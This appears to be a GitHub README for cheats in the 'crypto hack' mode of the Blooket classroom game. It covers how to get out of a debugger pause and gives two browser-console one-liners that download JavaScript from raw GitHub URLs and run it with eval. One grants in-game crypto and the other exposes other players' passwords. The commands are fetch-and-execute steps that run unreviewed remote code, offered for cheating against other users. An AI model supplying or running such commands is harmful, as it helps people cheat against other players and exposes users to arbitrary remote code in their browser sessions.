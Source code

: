 This cheat only works in crypto hack game mode!

# Paused in debugger
if you run one of the codes and get this: ![image](https://user-images.githubusercontent.com/73669084/133943133-af7cc9b8-75ab-496c-a17e-5851b6d7ff63.png) don't worry all you have to do is go to the sources tab: ![image](https://user-images.githubusercontent.com/73669084/133943102-701b0737-b0ca-4ccd-b533-e782c7767447.png) and click this: ![image](https://user-images.githubusercontent.com/73669084/133943169-2897f143-258f-49d8-81e3-181ffe857c8e.png) top right, lastly click this: ![image](https://user-images.githubusercontent.com/73669084/133943122-bc762f73-8522-435a-abb8-905233c95ebe.png) to get out of debugger


# getCrypto.js
Open console (ctrl + shift + j) and paste the following:
```js
fetch("https://raw.githubusercontent.com/glixzzy/blooket-cheat/main/crypto/getCrypto.js").then((res) => res.text().then((t) => eval(t)))
```

# hackOtherUsersPassword.js
This exploit lets you hack another users password, so it basically just gives you the right password lol

Open console (ctrl + shift + j) and paste the following:
```js
fetch("https://raw.githubusercontent.com/glixzzy/blooket-hack/main/crypto/hackOtherUsersPassword.js").then((res) => res.text().then((t) => eval(t)))
```
